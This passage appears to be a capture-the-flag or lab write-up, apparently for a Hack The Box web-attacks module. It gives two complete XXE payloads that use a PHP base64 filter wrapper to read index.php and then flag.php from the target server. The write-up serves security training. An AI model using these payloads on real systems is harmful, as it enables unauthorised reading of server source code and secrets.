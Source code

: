 ### Attempt XXE Exploit with PHP Filtering
- Since the application appears to be PHP-based, try PHP filtering to read server files.
- Start by attempting to read `index.php` to confirm access.

Use the below payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/index.php">
]>
            <root>
            <name>&Test;</name>
            <details>test</details>
            <date></date>
            </root>
```

![PHP Filter](/images/htb/web-attacks/sa-reading-index-content.png)

### Retrieve Flag
- We'll modify the payload to read `flag.php`.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&Test;</name>
            <details>test</details>
            <date></date>
            </root>
```
